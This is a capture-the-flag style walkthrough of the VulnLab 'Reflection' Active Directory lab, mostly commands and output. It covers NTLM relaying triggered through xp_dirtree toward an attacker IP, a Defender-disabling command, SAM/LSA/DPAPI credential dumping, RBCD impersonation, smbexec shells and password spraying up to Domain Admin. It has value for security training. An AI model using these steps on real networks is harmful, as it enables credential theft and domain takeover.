



The Reflection AD chain in VulnLab consists of three machines, and it is described as being of medium difficulty. The chain utilizes methods such as MSSQL, RBCD, password reuse, credential dumping, and relaying.


### MS01

Check the shares as the guest user using netexec.

```zsh
➜  reflection netexec smb ms01 -u 'guest' -p '' --shares                      
SMB         10.10.156.102   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.156.102   445    MS01             [+] reflection.vl\guest: 
SMB         10.10.156.102   445    MS01             [*] Enumerated shares
SMB         10.10.156.102   445    MS01             Share           Permissions     Remark
SMB         10.10.156.102   445    MS01             -----           -----------     ------
SMB         10.10.156.102   445    MS01             ADMIN$                          Remote Admin
SMB         10.10.156.102   445    MS01             C$                              Default share
SMB         10.10.156.102   445    MS01             IPC$            READ            Remote IPC
SMB         10.10.156.102   445    MS01             staging         READ            staging environment
```

The staging share draws our attention.

```zsh
➜  reflection impacket-smbclient reflection.vl/guest@10.10.156.102 -dc-ip 10.10.156.101 -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use staging
# ls
drw-rw-rw-          0  Thu Jun  8 15:21:36 2023 .
drw-rw-rw-          0  Wed Jun  7 21:41:25 2023 ..
-rw-rw-rw-         50  Thu Jun  8 15:21:49 2023 staging_db.conf
```

Download the configuration file and look its contents.

```zsh
➜  ms01 cat staging_db.conf 
user=web_staging
password=<REDACTED>
db=staging%       
```

Check with netexec to see which machine it applies to.

```zsh
➜  ms01 netexec mssql ../reflection.ip -u web_staging -p <REDACTED> --local-auth
MSSQL       10.10.156.102   1433   MS01             [*] Windows Server 2022 Build 20348 (name:MS01) (domain:reflection.vl)
MSSQL       10.10.156.101   1433   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:reflection.vl)
MSSQL       10.10.156.102   1433   MS01             [+] MS01\web_staging:<REDACTED> 
MSSQL       10.10.156.101   1433   DC01             [-] DC01\web_staging:<REDACTED> (Login failed for user 'web_staging'. Please try again with or without '--local-auth')
```

Connect to ms01

```zsh
➜  ms01 impacket-mssqlclient web_staging:'<REDACTED>'@10.10.156.102 -dc-ip 10.10.156.101
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MS01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MS01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (web_staging  guest@master)> SELECT name FROM master.sys.databases;
name      
-------   
master    

tempdb    

model     

msdb      

staging   

SQL (web_staging  guest@master)> SELECT * FROM staging.dbo.users;
id   username   password        
--   --------   -------------   
 1   b'dev01'   b'Initial123'   

 2   b'dev02'   b'Initial123'   
```

We try the usual steps here, but nothing valuable comes out of them.
We then start our relaying server — command execution isn't possible, but we are able to enumerate shares.


```zsh
➜  ms01 sudo impacket-ntlmrelayx  -smb2support -tf ../relayTarget.txt -i 
[sudo] password for user: 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
<SNIP>
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11001
[]
[*] SMBD-Thread-4 (process_request_thread): Connection from REFLECTION/SVC_WEB_STAGING@10.10.156.102 controlled, attacking target smb://10.10.156.102
[-] Authenticating against smb://10.10.156.102 as REFLECTION/SVC_WEB_STAGING FAILED
[*] Received connection from REFLECTION/svc_web_staging at MS01, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from REFLECTION/SVC_WEB_STAGING@10.10.156.102 controlled, but there are no more targets left!
[*] Received connection from REFLECTION/svc_web_staging at MS01, connection will be relayed after re-authentication
shares
```

To trigger it, you can:

```zsh
CSQL (-@master)> xp_dirtree \\10.8.6.29\share\
subdirectory   depth   file   
------------   -----   ----   
```

And we can access the shares through our own port 11000.


```zsh
➜  reflection nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
prod
SYSVOL
# use prod
# ls
drw-rw-rw-          0  Wed Jun  7 21:44:26 2023 .
drw-rw-rw-          0  Wed Jun  7 21:43:22 2023 ..
-rw-rw-rw-         45  Thu Jun  8 15:24:39 2023 prod_db.conf
# get prod_db.conf
```

```zsh
➜  ms01 cat prod_db.conf 
user=web_prod
password=<REDACTED>
db=prod%     
```

Connect to ms01 using the web_prod user.

```zsh
➜  ms01 impacket-mssqlclient web_prod:'<REDACTED>'@10.10.156.101 -dc-ip 10.10.156.101
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (web_prod  guest@master)> enable_xp_cmdshell
ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC01\SQLEXPRESS): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
SQL (web_prod  guest@master)> SELECT name FROM master.sys.databases;
name     
------   
master   

tempdb   

model    

msdb     

prod     

SQL (web_prod  guest@master)> SELECT * FROM prod.dbo.users;
id   name              password            
--   ---------------   -----------------   
 1   b'abbie.smith'    b'<REDACTED>'   

 2   b'dorothy.rose'   b'<REDACTED>'   
```

We found two domain users, which can be verified using netexec.
We run BloodHound and check their access.


<figure><figcaption></figcaption></figure>

We have GenericAll permissions on the abbie.smith user for the ms01 machine.
When checking the machine account quota, we noticed it's set to 0, which is bad news.


```zsh
➜  ms01 netexec ldap dc01 -u dorothy.rose -p hC_fny3OK9glSJ -M maq                          

SMB         10.10.219.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
LDAP        10.10.219.181   389    DC01             [+] reflection.vl\dorothy.rose:hC_fny3OK9glSJ 
MAQ         10.10.219.181   389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.10.219.181   389    DC01             MachineAccountQuota: 0
```

However, when we review SpecterOps' documentation, it tells us that we can read the LAPS (Local Administrator Password Solution) passwords.


According to SpecterOps' documentation on BloodHound edges:

> You may read the LAPS password of the computer object. See more information under the ReadLAPSPassword edge.
>
> You can write to the “msds-KeyCredentialLink” attribute on a computer. Writing to this property allows an attacker to create “Shadow Credentials” on the object and authenticate as the computer using Kerberos PKINIT. See more information under the AddKeyCredentialLink edge.
>
> Alternatively, Full control of a computer object can be used to perform a Resource-Based Constrained Delegation attack. See more information under the AllowedToAct edge.

Reference: [https://bloodhound.specterops.io/resources/edges/generic-all#with-genericall-over-a-computer](https://bloodhound.specterops.io/resources/edges/generic-all#with-genericall-over-a-computer)


```zsh
➜  bloodhound netexec ldap dc01 -u abbie.smith -p <REDACTED> -M laps 

SMB         10.10.219.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
LDAP        10.10.219.181   389    DC01             [+] reflection.vl\abbie.smith:<REDACTED> 
LAPS        10.10.219.181   389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.219.181   389    DC01             Computer:MS01$ User:                Password:<REDACTED>
```

We found the administrator password for ms01.

```zsh
➜  bloodhound netexec smb ms01 -u administrator -p '<REDACTED>' --local-auth
SMB         10.10.219.182   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.10.219.182   445    MS01             [+] MS01\administrator:<REDACTED> (Pwn3d!)
```


Next, let's dump the passwords by extracting the SAM, SYSTEM, and SECURITY files from the registry and use secretsdump.

```zsh
➜  ms01 impacket-secretsdump -system system.save -sam sam.save -security security.save LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xf0093534e5f21601f5f509571855eeee
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
[*] Cleaning up... 
```
You were about to transfer and run Mimikatz, but Defender is active on ms01.
To disable it, you can use the following command:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Then, we check the cached credentials with Mimikatz and find the Georgia.Price user.

```powershell
mimikatz # lsadump::cache
Domain : MS01
SysKey : f0093534e5f21601f5f509571855eeee

<SNIP>

[NL$3 - 5/3/2025 10:05:03 AM]
RID       : 00000454 (1108)
User      : REFLECTION\Georgia.Price
MsCacheV2 : <REDACTED>
```
### WS01

At this point, we can use netexec to access the password of the Georgia.Price user.

```zsh
➜  ms01 netexec smb ms01.reflection.vl -u administrator -p '<REDACTED>' --dpapi --local-auth
SMB         10.10.219.182   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.10.219.182   445    MS01             [+] MS01\administrator:<REDACTED> (Pwn3d!)
SMB         10.10.219.182   445    MS01             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.10.219.182   445    MS01             [+] Got 12 decrypted masterkeys. Looting secrets...
SMB         10.10.219.182   445    MS01             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{013CD3ED-72CB-4801-99D7-8E7CA1F7E370} - REFLECTION\Georgia.Price:<REDACTED>
```

We check the Georgia.Price user in BloodHound and see that they have GenericAll permissions on ws01.

<figure><figcaption></figcaption></figure>

We check again if we can read LAPS, but this time it doesn't work.

```zsh
➜  ms01 netexec ldap dc01 -u Georgia.Price -p 'DBl+5MPkpJg5id' -M laps 
SMB         10.10.219.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
LDAP        10.10.219.181   389    DC01             [+] reflection.vl\Georgia.Price:DBl+5MPkpJg5id 
LAPS        10.10.219.181   389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.219.181   389    DC01             [-] No result found with attribute ms-MCS-AdmPwd or msLAPS-Password !
```

This time, we use Impacket's RBCD (Resource-Based Constrained Delegation) to edit the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.(Don't forget, we are using the machine account hash here.)

```zsh
➜  ms01 impacket-rbcd -action write -delegate-to "ws01$" -delegate-from "ms01$" -dc-ip 10.10.219.181 "reflection/Georgia.Price:<REDACTED>"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] MS01$ can now impersonate users on WS01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     MS01$        (S-1-5-21-3375389138-1770791787-1490854311-1104)
```

Then, using getST, we can impersonate the administrator.

```zsh
➜  ms01 impacket-getST -spn 'cifs/ws01.reflection.vl' -impersonate Administrator -dc-ip 10.10.219.181 'reflection/ms01$' -hashes ':<REDACTED>'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
/usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.reflection.vl@REFLECTION.VL.ccache
```

Once again, let's use secretsdump to dump the credentials.

```zsh
➜  ms01 impacket-secretsdump administrator@ws01.reflection.vl -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x7ed33ac4a19a5ea7635d402e58c0055f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
<SNIP>
reflection.vl\Rhys.Garner:<REDACTED>
[*] DPAPI_SYSTEM 
<SNIP>
```

Let's verify that we have admin privileges using netexec.

```zsh
➜  ms01 netexec smb ws01 -u administrator -H <REDACTED> --local-auth
SMB         10.10.219.183   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.10.219.183   445    WS01             [+] WS01\administrator:<REDACTED> (Pwn3d!)
```

It seems that Defender is also active on ws01, which is why PsExec isn't working. In this case, SMBExec comes in handy and helps us proceed.

```zsh
➜  ms01 impacket-smbexec administrator@10.10.219.183 -hashes :<REDACTED>
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

### DC01

```zsh
➜  ms01 netexec ldap dc01 -u Rhys.Garner -p <REDACTED>
SMB         10.10.219.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
LDAP        10.10.219.181   389    DC01             [+] reflection.vl\Rhys.Garner:<REDACTED>
```


When we check the permissions for the Rhys.Garner user using BloodHound, we see that they have GenericAll permissions on the Domain Admins group.


<figure><figcaption></figcaption></figure>


We could proceed with exploiting the permissions, but a simple reuse mistake leads us to escalate to Domain Admin.


```zsh
➜  ms01 netexec smb dc01 -u users.txt -p <REDACTED> --continue-on-success
SMB         10.10.219.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Administrator:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\labadm:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\krbtgt:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Georgia.Price:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Michael.Wilkinson:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Bethany.Wright:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Craig.Williams:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Abbie.Smith:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Dorothy.Rose:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Dylan.Marsh:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [+] reflection.vl\Rhys.Garner:<REDACTED> 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\Jeremy.Marshall:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] Connection Error: Error occurs while reading from remote(104)
SMB         10.10.219.181   445    DC01             [-] reflection.vl\svc_web_prod:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [-] reflection.vl\svc_web_staging:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.219.181   445    DC01             [+] reflection.vl\dom_rgarner:<REDACTED> (Pwn3d!)
```

Earlier, we saw that dom_rgarner is already a member of the Domain Admins group.

```zsh
➜  ms01 impacket-smbexec dom_rgarner@10.10.219.181 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>type c:\users\administrator\desktop\flag.txt
VL{<REDACTED>}
C:\Windows\system32>whoami
nt authority\system
```

That's it!